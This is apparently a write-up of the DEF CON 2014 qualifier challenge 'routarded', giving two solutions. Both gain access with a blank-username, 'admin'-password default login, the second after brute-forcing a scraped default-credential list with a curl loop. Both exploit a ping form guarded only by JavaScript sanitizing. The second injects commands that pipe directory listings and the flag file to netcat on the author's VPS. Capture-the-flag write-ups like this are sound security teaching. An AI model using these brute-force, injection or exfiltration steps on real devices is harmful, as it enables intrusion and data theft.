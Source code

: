 # DEF CON CTF Qualifier 2014: routarded

**Category:** Baby’s First
**Points:** 1
**Description:**

> Wow, they forwarded http on a router with default creds?
>
> http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/

## Write-up

The hint mentioned default credentials, so we tried some default credentials. After some trying, we found out leaving the username field empty and entering `admin` for the password successfully logged us in.

In the router’s web interface, there was a page to ping IP addresses and domain names (amongst other things). When we attempted to add another command to that, the command was sanitized. For example, entering `8.8.8.8; ls` got sanitized into `8.8.8.8`. However, we saw the sanitizing happening in the browser. Seems like a case of JavaScript-only protection!

We disabled JavaScript in our browser and tried entering `; ls`. This effectively bypassed the filter (i.e. they didn’t do any sanitizing on the back-end), and we got the directory listing this time:

```
bower_components
flag
requirements.txt
routarded.py
static
templates
```

The `flag` file seemed like the right thing. Let’s enter `; cat flag`:

```
The flag is: l0l, can't believe they still do this shit
```

## Write-up 2 (by @d1rt_diggler)

**Note: this is from memory, so some details might be slightly off.**

### Casing the joint

Connecting to the server via browser greated you with a standard HTTP auth prompt. There was no splash page, and I don’t recall anything fancy in the headers, so no hints there…

###Defaults, okay, but WHICH defaults?
I started with your basics by hand (you never know!) admin:admin, admin:password, admin:blank, administrator:administrator, etc.
all without success, I didn't have a password list for router defaults on hand but about 2 minutes of Goog-fu turned some up.  I found http://defaultpassword.com and liked the format and variety, so I just did a full copy and paste of the home page (which lists all the passwords by default, awesome!) and dropped it into a text file.

The defaults were kind of weird though and since it seems to be crowd sourced the standarization for (blank), (none), n/a, etc. was... well, not standard.  I ended up passing the list through a couple grep and awk 1 liners to get only HTTP auth versions and to clean it up the non-standard types for "blank".
```
$ cat passwords.txt | awk '{print $6" "$7}' > first_pass.txt
$ cat first_pass.txt | awk {gsub('\\(none\\)','',$1); gsub('\\(none\\)','',$2);print $1" "$2}' > second_pass.txt
$ cat second_pass.txt | awk {gsub('n\\a','',$1); gsub('n\\a','',$2);print $1" "$2}' > third_pass.txt
$ cat third_pass.txt | awk {gsub('\\(blank\\)','',$1); gsub('\\(blank\\)','',$2);print $1" "$2}' > last_pass.txt
```
Those turned this...
```
3com    cellplex        7000    Telnet  admin   admin   Admin   No
3COM    CellPlex        7000    Telnet  tech    tech    Admin   No
3COM    CellPlex                HTTP    admin   synnet  Admin   No
3COM    CoreBuilder     7000/6000/3500/2500     Telnet  debug   synnet          No
3COM    CoreBuilder     7000/6000/3500/2500     Telnet  tech    tech            No
3COM    HiPerARC        v4.1.x  Telnet  adm     (none)  Admin   No
```
Into this... (roughly... it wasn't perfect, but I was aiming for "good enough")
```
admin admin
tech tech
admin synnet
debug synnet
tech tech
adm
```
Now we had a condensed list, but there were some dupes, no use in retrying pairs.
```
$ cat last_pass.txt | sort | uniq > uniq_pass.txt
```
This would turn
```
admin admin
admin admin
admin password
admin admin
admin administrator
admin admin
admin administrator
admin password
```
Into
```
admin admin
admin administrator
admin password
```
Which would reduce the amount of time it needed to test since we wouldn't be pointlessly testing the same creds over and over.

Now I wanted to format these into the HTTP user:pass format for curl
```
$ cat uniq_pass.txt | awk '{print $1":"$2}' > http_auths.txt
```
Which turned the list generated earlier into
```
admin:admin
tech:tech
admin:synnet
debug:synnet
tech:tech
adm:
```
###We've got our creds, now we need to test em'
Open up good ole vim and pumped out a shell script that would loop over the creds file and attempt
a curl to the router using a set of credentials... if it failed, it would be a 1 line error, if it
worked I'd see a flood of HTML content.

```bash
#!/usr/bin/env bash
users=$(cat http_auths.txt);
for user in $users; do
  echo $user;
  echo "";
  curl -u "$user" "http://routarded_87f7837f50a5370771b9467d840c93c5.2014.shallweplayaga.me:5000/";
  echo "-----"
done;
```

Run it and scan the results for a successful auth.

```bash
$ ./test_auths | less
```

### `[BLANK]:admin`

Of course, the one default I didn’t think to try by hand… OF COURSE!

### Now we're in, let's look around
There really wasn't much to see, under the "tools" or "settings" tab (I can't remember which) there were
two tools that caught my eye, one was a traceroute, the other ping.  Running either returned nothing. I
actually thought something was misconfigured (like legitmately, not in the "break this piece" sense) and
looked around for a few more minutes before deciding to see if I could abuse the ping tool. I was going
in blind though since I couldn't tell if these tools were even getting to a system behind the scenes...
how could I do a simple blind test to see...

```
ping [ google.com ]
(page hangs for roughly 3 seconds, loads)
ping [ 127.asdf.asdf.174188 ]
(page loads immediately)
```

Hmmm okay, so it does seem like it's actually running a ping in the background, maybe it's injectable? I can't
really tell from the busted ass web UI tho... maybe I can get it to phone home.  I jump on my public facing VPS
and type in:

```
$ nc -vvv -lp 4545
Listening on any address 4545 (worldscores)
```

Time to find out...

```
ping [ 127.0.0.1; nc myvps.domains.lol 4545; ]
```

YEAH BUDDY!

```
Connection from 133.7.101.256:49245
```

### Scope the joint

Well we confirmed we had an injectable script, and we confirmed we could phone home, now we just need to
get our hands on that flag... but where the hell is it and where the hell am I?!

```
ping [ 127.0.0.1; ls -lahR /home/ | nc myvps.domains.lol 4545; ]
```

On my listening machine...

```
..snip..
/home/routarded/ (or / I don't remember...)
-rw-r--r--  1 routarded routarded  21   May 14 19:56 flag
..snip..
```

### Gettin’ the goods

Well, we've found it, so we’re pretty much done, all I need to do now is read the file and we’re golden.
```
ping [ 127.0.0.1; cat /home/routarded/flag | nc myvps.domains.lol 4545; ]
```

And on my listening machine...

```
$ nc -vvv -lp 4545
Listening on any address 4545 (worldscores)
Connection from 133.7.101.256:49245
The flag is: l0l, can't believe they still do this shit
```

## Other write-ups and resources

* (none yet)
